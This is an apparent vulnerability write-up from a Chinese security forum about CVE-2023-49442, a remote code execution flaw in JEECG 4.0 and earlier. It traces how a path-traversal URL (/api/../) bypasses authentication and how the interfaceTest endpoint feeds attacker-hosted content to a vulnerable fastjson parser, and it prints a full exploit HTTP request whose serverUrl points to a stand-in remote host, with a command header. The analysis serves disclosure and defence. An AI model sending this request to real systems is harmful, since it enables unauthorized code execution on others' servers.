

# JEECG代码执行漏洞-CVE-2023-49442 - 先知社区

JEECG代码执行漏洞-CVE-2023-49442

- - -

# JEECG代码执行漏洞分析-CVE-2023-49442

## 漏洞描述

JEECG 4.0及之前版本中，由于接口鉴权时未过滤路径遍历，攻击者可构造url绕过鉴权，攻击者可构造恶意请求利用jeecgFormDemoController.do?interfaceTest接口进行远程代码执行

## 影响版本

-   <= 4.0

## 漏洞分析

根据 jeecgFormDemoController.do?interfaceTest定位漏洞代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140531-c070f8da-b690-1.png)  
可以看到接受3个参数：serverUrl、requestBody、requestMethod，然后根据requestMethod的值调用HttpRequest.sendPost或HttpRequest.sendGet  
这2个方法的区别就是发送get或post请求，请求传入的serverUrl

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140548-cabf8626-b690-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140600-d1fb026c-b690-1.png)  
之后获取请求结果，调用JSONObject.parseObject(result)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140618-dc278706-b690-1.png)  
因为这里使用的是fastjson

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140630-e3a9f2a2-b690-1.png)  
并且其版本为1.2.31，为漏洞版本

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140648-ee575de8-b690-1.png)  
所以我们只要构造serverUrl回显的内容为fastjson代码执行的payload即可  
但实际直接访问该路由是会302跳转的，应该是拦截器做了限制

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140704-f7a29732-b690-1.png)  
观看代码，可以发现api接口，是不做限制的，只要以/api/开头就行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140717-ff53ed46-b690-1.png)  
又因为其alwaysUseFullPath为值false，在处理过程中会对uri进行标准化处理，所以我们可以利用/api/../的形式来进行绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140733-09526ce6-b691-1.png)

```plain
/api/../jeecgFormDemoController.do?interfaceTest=
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140747-11c3979c-b691-1.png)

## 漏洞利用

创建如下远程文件，其内容为fastjson代码执行的payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140812-206d70b0-b691-1.png)  
发送如下请求包

```plain
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
```

漏洞利用成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119140845-33e30a88-b691-1.png)

## 参考链接

[https://avd.aliyun.com/detail?id=AVD-2023-49442](https://avd.aliyun.com/detail?id=AVD-2023-49442)
